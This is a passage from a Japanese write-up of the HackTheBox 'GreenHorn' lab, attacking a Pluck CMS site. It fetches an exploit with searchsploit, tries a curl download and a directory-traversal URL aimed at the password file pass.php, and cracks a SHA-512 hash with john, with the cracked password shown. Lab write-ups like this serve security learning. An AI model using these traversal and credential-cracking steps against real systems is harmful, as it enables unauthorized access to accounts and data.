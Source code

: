 PoCをミラーダウンロードする
```bash
searchsploit -m php/webapps/51592.py
```

コードの調整が必要な部分を調整する
Upload_URLを指定する必要があるが、アップロードするサイトの部分がないから出来なさそう
他の手法を試す

調べてると、Readme.mdが見つかったので、見ていると、
[Plunk CMSのWiki](https://github.com/pluck-cms/pluck/wiki/Frequently-Asked-Questions)のリンクを見つけた。
Wiki内で
	**Changing the Password** There is way to reset a lost password. But you can modify it via ftp!
	To do so, edit the value for ww in data\settings\pass.php
	
	```html
	<?php
	$ww = 'ba3253876aed6bc22d4a6ff53d8406c6ad864195ed144ab5c87621b6c233b548baeae6956df346ec8c17f5ea10f35ee3cbc514797ed7ddd3145464e2a0bab413';
	```
	
	This lines change the password to "123456".
	
	Then login, click 'options' and change the password
	
	[](https://github.com/pluck-cms/pluck/wiki/_Footer/_edit "Edit footer")
	
	bx0
という記述がある。この記述から、data\settings\pass.phpでパスワードを変更することができるとわかる。
しかし、`curl -o http://greenhorn.htb/data/settings/pass.php`と直接ダウンロードしようとしても、ダウンロードできない。
以下のようなディレクトリトラバーサル攻撃もうまく効かない
`http://greenhorn.htb/?file=welcome-to-greenhorn....//....//....//....//data/settings/pass.php`

このサーバーは、3000番からアクセスできる。
![](https://raw.githubusercontent.com/crum7/Obsidian/main/HackTheBox_Writeups/Retired/Easy/GreenHorn/images/Pasted%20image%2020250102124547.png)
johnで解析する。
ハッシュのパスワードが「iloveyou1」であることがわかった。
```sh
└──╼ [★]$ echo "d5443aef1b64544f3685bf112f6c405218c573c7279a831b1fe9612e3a4d770486743c5580556c0d838b51749de15530f87fb793afdcc689b6b39024d7790163" > hashes.txt

└──╼ [★]$ john --format=raw-sha512 hashes.txt
Created directory: /home/snowyowl644/.john
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA512 [SHA512 256/256 AVX2 4x])
Warning: poor OpenMP scalability for this hash type, consider --fork=4
Will run 4 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
iloveyou1        (?)     
1g 0:00:00:00 DONE 2/3 (2025-01-01 21:58) 33.33g/s 136533p/s 136533c/s 136533C/s 123456..Peter
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
